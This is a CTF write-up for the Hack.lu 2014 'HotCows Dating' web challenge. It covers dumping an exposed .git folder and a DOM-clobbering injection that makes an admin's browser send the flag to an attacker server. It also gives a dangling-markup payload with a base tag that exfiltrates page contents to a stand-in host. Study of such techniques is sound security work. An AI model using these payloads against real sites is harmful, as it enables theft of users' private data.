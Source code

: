 # Hack.lu CTF 2014: HotCows Dating

**Category:** Web
**Points:** 400
**Author:** qll
**Description:**

> If you want to take a break from all the hard work, you've come to the right place. Many things have been said about this dating service. Some say it holds your greatest desires, some say it is merely disgusting. All of it is probably true, but see yourself… https://wildwildweb.fluxfingers.net:1401
>
> **Hint:** Let’s start with an obvious hint: What do we tell search engines about cow love? “No no”.
>
> **Note:** The support uses Chromium (37) which does support CSP, does not have any particularly interesting extensions and is most certainly no Internet Explorer. Support also does not see anything else than you. They really just visit the cow’s profile you give them.

## Write-up

<https://wildwildweb.fluxfingers.net:1401/> is a dating site for cows. After signing up for an account and logging in, we’re redirected to <https://wildwildweb.fluxfingers.net:1401/?p=internal> where we can choose a hot, single cow to chat with. Selecting ‘Rosie’ brings us to `https://wildwildweb.fluxfingers.net:1401/?p=chat#Rosie` which displays a chat interface:

![](chat.jpg)

The ‘Report a Problem’ button links to `https://wildwildweb.fluxfingers.net:1401/?p=report` where you can enter the name of a cow and a description of the issue you’re having.

![](report.jpg)

Some further site recon reveals an interesting `robots.txt` file:

```bash
$ curl https://wildwildweb.fluxfingers.net:1401/robots.txt
User-agent: *
Disallow: /index.php?api=*
Disallow: /.git/
```

And sure enough, their entire `.git` folder is available at `https://wildwildweb.fluxfingers.net:1401/.git/`. Let’s download the whole thing:

```bash
$ wget -r https://wildwildweb.fluxfingers.net:1401/.git/
```

This is a so-called _bare Git repository_: it contains the repository data but not the actual files. Luckily it’s possible to extract those:

```bash
$ ls -la
total 0
drwxr-xr-x   3 mathias  staff  102 Oct 22 16:57 .
drwxr-xr-x   6 mathias  staff  204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff  476 Oct 22 17:00 .git

$ git config --local --bool core.bare false

$ git checkout -f

$ ls -la
total 24
drwxr-xr-x  12 mathias  staff   408 Oct 22 17:03 .
drwxr-xr-x   6 mathias  staff   204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff   476 Oct 22 17:03 .git
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 api
-rw-r--r--   1 mathias  staff  1499 Oct 22 17:03 cfg.php
drwxr-xr-x   3 mathias  staff   102 Oct 22 17:03 css
-rw-r--r--   1 mathias  staff   555 Oct 22 17:03 index.php
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 js
drwxr-xr-x   4 mathias  staff   136 Oct 22 17:03 lib
-rw-r--r--   1 mathias  staff    57 Oct 22 17:03 robots.txt
drwxr-xr-x   7 mathias  staff   238 Oct 22 17:03 static
drwxr-xr-x  10 mathias  staff   340 Oct 22 17:03 templates
```

Now we have access to the full source code for the site.

Studying the code reveals that the flag is messaged to premium account users when they start a new chat session. See the `page.firstMessage` function in `js/pages/chat.js`. Since there’s no way for us to get a premium account, we’ll have to find a way to have a premium user do this for us, and then leak the flag somehow.

We guessed that the ‘report a problem’ functionality would cause a logged-in site administrator to visit the profile for the cow whose name you enter. What if we can get a cross-site scripting (XSS) vector in there?

Eventually, this is the cow name we entered (explanation follows):

```
https://our-server.example.com/<form name=getElementById></form>
```

We assumed that this would cause the server admin to visit the following URL:

```
https://wildwildweb.fluxfingers.net:1401/?p=chat#https://our-server.example.com/<form name=getElementById></form>
```

And indeed – a few moments later we got a hit on our server:

```
149.13.33.84 - - [22/Oct/2014 15:51:58] "GET /%3Cform%20name=getElementById%3E%3C/form%3E%20(PREM_flag%7Bcows_need_love_too!%7D) HTTP/1.1" 404 -
```

After URL-decoding, that becomes:

```
<form name=getElementById></form> (PREM_flag{cows_need_love_too!})
```

The flag is `flag{cows_need_love_too}`. But why on earth did this work?!

The `page.view` function around line 134 of `js/pages/chat.js` contains this snippet:

```js
cow_name = location.hash.slice(1);
/* … */
temp_main = new Template('cow.html');
temp_main.assign(cow_name, 'cow');
temp_main.render();
```

`location.hash.slice(1)` is the part of the URL following `#`, which is under our control. Since this value is never sanitized, this creates an XSS vulnerability. However, the site is sending a CSP header which disallows inline scripts:

```http
Content-Security-Policy: default-src 'none'; img-src 'self'; script-src 'self'; style-src 'self'; connect-src 'self'
```

So injecting scripts won’t work, but we can still insert arbitrary HTML. So why did we inject `<form name=getElementById></form>`, of all things? When the above code is executed, and the `<form>` is inserted into the DOM, we’ve successfully [clobbered](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/) `document.getElementById`: it is now a reference to the injected `<form>` element rather than the DOM method the rest of the script expects. That’s why the next line throws an exception:

```js
btn_logout = document.getElementById('btn-logout');
```

Since the error is not caught using `catch`, the rest of the code in `page.view` never executes. This line, for example, is never reached:

```js
temp = new Template('message.html');
```

As a result, the global `temp` variable maintains its previous value, which is a reference to the built-in `location` object because of this line in `js/router.js`:

```js
router.route((m = /p=(\w+)/.exec(temp=location)) ? m[1] : 'index',
       (!!temp.hash) ? temp.hash.slice(1) : undefined);
```

When the page was loaded, `js/pages/chat.js` set up a timer to call `page.firstMessage` after a second:

```js
setTimeout(page.firstMessage, 1000);
```

The `page.firstMessage` function looks like this:

```js
/**
 * Greet the user after a while to avoid suspicion.
 */
page.firstMessage = function firstMessage() {
  if (!!temp) { // if template loaded
    temp.assign('system', 'class');
    temp.assign('In chat with', 'name')
    message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
    temp.assign(message, 'msg');
    page.appendMessage(temp);
    temp.assign('her', 'class');
    temp.assign(cow_name, 'name')
    temp.assign(page.chatAnswer('', cow_name), 'msg');
    page.appendMessage(temp);
  } else {
    // wait some more
    setTimeout(page.firstMessage, 1000);
  }
};
```

`temp.assign` is supposed to refer to the custom `Template.prototype.assign` method as defined in `js/template.js`, but because `temp` is now a reference to `location`, it’s actually [`location.assign`](https://html.spec.whatwg.org/multipage/browsers.html#dom-location-assign).

Note that thanks to our DOM clobbering attack, the call to `page.appendMessage` throws an exception, since it attempts to use `document.getElementById`. As a result, the rest of the code in `page.firstMessage` is never executed. This leaves the following code:

```js
temp.assign('system', 'class');
temp.assign('In chat with', 'name')
message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
temp.assign(message, 'msg');
page.appendMessage(temp); // ← This throws an exception.
// The code below is never reached.
```

Another thing to keep in mind is that browsers batch successive calls to `location.assign` together. For example, this HTML document redirects you to `https://example.com/?q=b` and not `https://example.com/?q=a`:

```html
<script>
  location.assign('https://example.com/?q=a');
  location.assign('https://example.com/?q=b');
</script>
```

Similarly, only the last `temp.assign` call is effective:

```js
temp.assign(message, 'msg');
```

That’s good news, because it contains the flag! Now you know why/how that ‘exploit’ we showed you earlier works. Here it is one more time:

```
https://our-server.example.com/<form name=getElementById></form>
```

Isn’t it beautiful?

### Simpler, unintended solution

A much simpler way to solve the challenge was to use a [dangling markup injection](http://lcamtuf.coredump.cx/postxss/#dangling-markup-injection) attack in combination with a `<base>` tag to leak part of the HTML to a server under our control:

```
<base href=https://our-server.example.com/><img src="
```

The challenge author confirmed on IRC that this is not the intended solution, although it is a very nice bypass.

## Other write-ups and resources

* [More info about _DOM clobbering_, the technique used to solve this challenge](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)
